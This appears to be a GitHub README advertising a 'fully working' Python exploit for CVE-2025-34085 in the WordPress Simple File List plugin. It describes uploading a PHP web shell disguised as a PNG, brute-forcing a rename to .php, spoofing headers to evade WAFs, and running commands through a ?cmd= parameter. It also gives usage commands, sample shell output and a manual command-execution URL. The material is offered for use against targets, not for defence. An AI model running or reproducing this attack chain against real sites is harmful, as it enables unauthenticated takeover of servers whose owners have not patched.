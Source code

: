 # 📂 Simple File List – Unauthenticated RCE Exploit (CVE-2025-34085)

> ⚠️ Exploit Code by: **Mrj Haxcore**

A fully working Python exploit for the WordPress **Simple File List** plugin (<= 4.2.3), which is vulnerable to **unauthenticated remote code execution (RCE)** due to insecure file upload and rename logic.

---

## 💣 Vulnerability Summary

- **Plugin**: Simple File List (`simple-file-list`)
- **Version**: <= 4.2.3
- **CVE**: CVE-2025-34085
- **Impact**: Unauthenticated users can upload a PHP file disguised as `.png`, then rename it to `.php` and execute arbitrary code.
- **Requirements**: No authentication required
- **Exploit Type**: File Upload → Rename Bypass → Command Execution

---

## ✅ Features

- 🚀 Fully automated exploit chain
- 📤 Manual `multipart/form-data` builder (bypasses 415)
- 🔁 Rename brute-force for `.php`, `.php5`, `.phtml`, etc.
- 🛡️ Realistic spoofed headers to bypass WAFs
- 🐚 Command execution via `?cmd=`
- 🧼 Clean output (no `�PNG` garbage)

---

## 🛠 Usage

```bash
python3 simple.py https://target.site

[+] Uploading shell as 8dkls0qp.png...
[+] Upload successful.
[+] Trying to rename to: 8dkls0qp.php...
[+] Rename successful: 8dkls0qp.php
[+] Triggering shell: https://target.site/wp-content/uploads/simple-file-list/8dkls0qp.php?cmd=id
[+] Shell output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Manual Visit

https://target.site/wp-content/uploads/simple-file-list/8dkls0qp.php?cmd=whoami

